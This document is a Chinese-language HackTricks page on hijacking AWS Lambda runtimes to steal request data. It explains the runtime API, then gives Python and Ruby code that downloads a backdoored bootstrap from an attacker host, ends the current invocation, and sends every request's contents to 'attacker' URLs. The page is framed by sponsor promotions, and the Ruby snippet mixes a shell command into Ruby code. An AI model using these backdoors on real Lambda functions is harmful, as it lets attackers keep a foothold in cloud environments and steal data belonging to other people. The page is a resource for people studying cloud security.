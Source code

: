 # AWS - Lambda请求窃取

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 简介 <a href="#python-runtime" id="python-runtime"></a>

这种攻击假设您对正在运行的Lambda有某种形式的**访问权限**。\
此外，需要注意的一点是**Lambda调用并不完全隔离**，它们是相互隔离的。它们可以在同一个执行环境中运行，尽管不是同时运行。有了这个理解，让我们开始分析这个环境。

### 隔离

Lambda使用了这些cgroups进行隔离：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

由于前缀'sandbox'与任何常见的容器引擎（如docker、podman、LXD、rkt）都不匹配，它可能是一种专有的容器引擎，该引擎可能在内部使用开源容器运行时，如[runC](https://github.com/opencontainers/runc)。

### Lambda的工作原理 <a href="#python-runtime" id="python-runtime"></a>

这似乎是Python Lambda的架构：

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. 容器外的一个进程，称为**init二进制文件中的“切片器”**，通过共享内存将调用事件发送给**init**进程。
2. init进程在端口9001上（硬编码）设置了一个HTTP服务器，暴露了几个端点：
   1. /2018-06-01/runtime/invocation/**next** - 获取下一个调用事件
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** - 返回调用处理程序的响应
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** - 返回执行错误
3. 在`bootstrap.py`中，以下循环**查询init进程是否有新事件**，然后**调用用户的函数**来处理它（这里运行您上传的请求处理程序）。

<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

4. **处理程序的响应然后通过以下端点发送回init进程**：
   1. `/{invoke-id}/response` - 如果用户处理程序执行成功
   2. `/{invoke-id}/error` - 如果在处理调用过程中引发了异常

## 技术摘要 <a href="#python-runtime" id="python-runtime"></a>

可以通过恶意代码**替换引导脚本**，以便能够**拦截发送到Lambda函数的数据**。\
请注意，其他语言中的其他引擎也有另一个用该语言编写的**引导脚本**，因此这也可以在使用其他语言的其他Lambda中完成，而不仅仅是Python。

## Python <a href="#python-runtime" id="python-runtime"></a>

从Lambda中下载**`/var/runtime/bootstrap.py`**（或者只需启动**自己的Lambda**并获取它），然后添加将泄漏发送到Lambda的所有数据的后门。您只需要添加几行代码，如下所示：

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### 替换运行时

现在，有了新创建的**`boostrap.py`**，可以**下载**它，**结束当前Lambda调用**并运行它以**替换**合法的脚本：
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
或者你也可以使用[twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py)，它将像之前一样结束调用，运行新的引导程序并窃取信息。

{% hint style="warning" %}
如果一个Lambda函数在5-15分钟内没有被使用，它将被关闭，并且所有的更改将在下一次调用时丢失。
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

在Ruby中，你想要后门的文件是**`/var/runtime/lib/runtime.rb`**文件（从系统中获取或运行你自己的Lambda函数）。

添加后门与Python版本一样简单：
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
然后，你只需要在Python版本中做一个改变：

* **在一个目录中下载后门**
* 使用符号链接将`/var/runtime/lib/*`与后门所在的目录链接起来
* 结束当前的Lambda调用
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## 参考资料

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 PDF 版的 HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
